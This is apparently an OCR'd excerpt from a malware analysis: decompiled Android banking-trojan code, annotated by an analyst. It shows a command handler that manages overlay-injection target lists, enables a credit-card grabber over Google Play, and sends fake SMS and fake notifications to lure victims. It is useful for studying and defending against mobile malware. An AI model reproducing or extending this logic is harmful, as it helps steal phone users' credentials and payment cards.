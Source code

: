 ```cs
                                    }
                                    else if(s6.equals("READ_INJECTS")) { // read the list of targeted apps
                                        globalService0.Tools.readInjects(globalService0);
                                    }
                                    else if(s6.equals("WRITE_INJECTS")) { // add to the list of targeted apps
                                        String s22 = jSONObject2.getString("INJ");
                                        globalService0.Tools.writeInjects(globalService0, s22);
                                    }
                                        else {
                                            boolean z6 = s6.equals("BLOCK_SETTINGS");
                                            if(s6.equals("ENABLE_INJECT")) { // enable ijection to perform overlay attack
                                                globalService0.Tools.enableInjections(globalService0, true);
                                            }
                                            else if(s6.equals("DISABLE_INJECT")) {
                                                globalService0.Tools.enableInjections(globalService0, false);
                                            }
                                            else {
                                                boolean z7 = s6.equals("ENABLE_CC_GRABBER"); // enable overlay attack over google play to get CC
                                                if(z7) {
                                                    globalService0.Tools.addInjectablePackage(globalService0, "com.android.vending", Boolean.valueOf(false));
                                                }
                                                else if(s6.equals("DISABLE_CC_GRABBER")) {
                                                    globalService0.Tools.delInjectablePackage(globalService0, "com.android.vending", Boolean.valueOf(false));
                                                }
                                                else if(s6.equals("ADD_INJECT_PACKAGE")) {
                                                    String s25 = jSONObject2.getString("PKG");
                                                    if(s25.length() > 2) {
                                                        globalService0.Tools.addInjectablePackage(globalService0, s25, Boolean.valueOf(true));
                                                    }
                                                }
                                                else if(s6.equals("INSERT_SMS")) { // write a message to send to as a fake message to lure the user to open the app
                                                    String s28 = jSONObject2.getString("SENDER");
                                                    String s29 = jSONObject2.getString("BODY");
                                                    globalService0.Tools.fakesms(globalService0, s28, s29);
                                                }
                                                    }
                                                    else if(s6.equals("PUSH")) { // to push a fake notification 
                                                        Intent intent0 = new Intent(globalService0, ____ServiceShowNotification.class);
                                                        intent0.putExtra("title", jSONObject2.getString("TITLE"));
                                                        intent0.putExtra("content", jSONObject2.getString("CONTENT"));
                                                        intent0.putExtra("googleIcon", jSONObject2.getString("GOOGLE_ICON"));
                                                        globalService0.startService(intent0);
                                                    }
                                                    else if(s6.equals("PUSH_NOTIFY")) {
                                                        String s33 = jSONObject2.getString("PKG");
                                                        globalService0.Tools.showPushNotify(globalService0, s33);
```